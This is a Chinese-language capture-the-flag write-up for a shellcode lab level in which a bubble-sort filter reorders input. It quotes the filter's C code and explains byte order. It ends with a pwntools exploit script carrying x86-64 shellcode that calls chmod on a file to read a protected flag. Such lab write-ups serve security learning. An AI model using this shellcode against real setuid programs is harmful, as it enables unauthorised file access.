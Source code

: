 # 挑战简介
此挑战仅使用冒泡排序对您的 shellcode 进行排序。请记住内存字节序对这种排序的影响
（例如，LSB 是最右边的字节）。

# 思路
并没有找到此题的挑战目的，用上一题的解法过了，甚至用上上题的解法也过了  
这个题如果用长shellcode可能会出问题  

这是执行filter的代码，很明显是一个冒泡排序
```
puts("Executing filter...\n");
    uint64_t *input = shellcode_mem;
    int sort_max = shellcode_size / sizeof(uint64_t) - 1;
    for (int i = 0; i < sort_max; i++)
        for (int j = 0; j < sort_max-i-1; j++)
            if (input[j] > input[j+1])
            {
                uint64_t x = input[j];
                uint64_t y = input[j+1];
                input[j] = y;
                input[j+1] = x;
            }
```

**了解一点东西**
高字节：多字节数据中权重最大的字节（最左边的字节）
低字节：多字节数据中权重最小的字节（最右边的字节）
低地址：内存中较小的地址值
高地址：内存中较大的地址值

**大端字节序**
```
内存地址:   0x1000    0x1001
内存内容:    0x12      0x34
字节解释:   高字节     低字节
```

**小端字节序**
```
内存地址:   0x1000    0x1001
内存内容:    0x34      0x12
字节解释:   低字节     高字节
```

***以上知识与本题无关***

其实这题能用之前的过了就是了

```
#!/usr/bin/python
from pwn import *
import struct
import os
cache_dir = '/tmp/.pwntools-cache'
if not os.path.exists(cache_dir):
    os.makedirs(cache_dir)

context(os='linux', arch='amd64', log_level='debug', cache_dir=cache_dir)

p = process('/challenge/babyshell-level-10')

p.recvuntil('Reading 0x1000 bytes from stdin.\n')

shellcode = asm('''
    push 0x66
    mov rdi, rsp
    push 4

_stage:
    pop rsi
    jmp short skip
    nop
    nop
    nop
    nop
    nop
    nop
    nop
    nop
    nop
    nop
skip:
    push 90
    pop rax
    syscall
    ret
    ret
    ret
''')


# 为安全起见，打印完整的shellcode十六进制表示
print("Shellcode十六进制:", shellcode.hex())
print("Shellcode长度:", len(shellcode), "字节")

p.send(shellcode)

# 与shell交互
p.interactive()
p.recvall()
```

